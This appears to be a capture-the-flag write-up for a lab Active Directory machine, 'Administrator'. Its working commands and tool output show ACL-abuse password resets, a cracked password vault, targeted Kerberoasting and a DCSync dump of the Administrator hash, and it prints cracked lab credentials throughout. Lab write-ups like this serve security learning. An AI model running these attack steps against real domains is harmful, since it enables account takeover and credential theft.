


| Username  | Password                       |
| --------- | ------------------------------ |
| Olivia    | ichliebedich                   |
| emily     | UXLCI5iETUsIBoFVTj8yQFKoHjXmb  |
| emma      | WwANQWnmJnGV07WQN8bMS7FMAbjNur |
| alexander | UrkIbagoxMyUGw0aPlj9B0AXSea4Sw |
| ethan     | limpbizkit                     |
# Shell as Michael

```bash
# Abuse GenericAll ACL to change passowrd of MICHAEL user
net rpc password "michael" "Password123@" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.129.49.16
nxc smb 10.129.49.16 -u michael -p Password123@
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
[+] administrator.htb\michael:Password123@
```
# Shell as Benjamin
```bash
# Abuse ForceCHangePassword to change Benjamin Password
bloodyAD -d Administrator.htb -u 'michael' -p 'Password123@' --host dc.administrator.htb set password "benjamin" "Password123@"
nxc smb 10.129.49.16 -u benjamin -p Password123@
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
[+] administrator.htb\benjamin:Password123@
```
# Shell as Emily
-> With Benjamin account we can connect to ftp and retrieve backup file
```bash
# -> crack all file in hashcat
hashcat hashes/Backup.psafe3 wordlists/rockyou.txt -m 5200
hashes/Backup.psafe3:tekieromucho
```


-> Now try connecting as Emily
```bash
💻 10.10.14.38 📁 Administrator # nxc smb 10.129.49.16 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
[+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```
# Shell as Ethan
-> Emily as GenericWrite on Ethan
```bash
# faketime "$(rdate -n 10.129.49.16 -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
# targetedKerberoast.py -v -d "administrator.htb" -u "emily" -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -o Kerberoastables.txt

[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Writing hash to file for (ethan)
[VERBOSE] SPN removed successfully for (ethan)
#Crack with hashcat
💻 10.10.14.38 📁 Administrator # nxc smb 10.129.49.16 -u ethan -p 'limpbizkit'
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
[+] administrator.htb\ethan:limpbizkit
```
# Shell as Administrator
-> Ethan as DCSync over Administrator.htb
```bash
nxc smb 10.129.49.16 -u ethan -p 'limpbizkit' --ntds --user Administrator
SMB         10.129.49.16    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.49.16    445    DC               [+] administrator.htb\ethan:limpbizkit
SMB         10.129.49.16    445    DC               [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.129.49.16    445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.49.16    445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
SMB         10.129.49.16    445    DC               [+] Dumped 1 NTDS hashes to /root/.nxc/logs/ntds/DC_10.129.49.16_2026-01-21_193013.ntds of which 1 were added to the database
SMB         10.129.49.16    445    DC               [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.129.49.16    445    DC               [*] cat /root/.nxc/logs/ntds/DC_10.129.49.16_2026-01-21_193013.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.129.49.16    445    DC               [*] grep -iv disabled /root/.nxc/logs/ntds/DC_10.129.49.16_2026-01-21_193013.ntds | cut -d ':' -f1
```
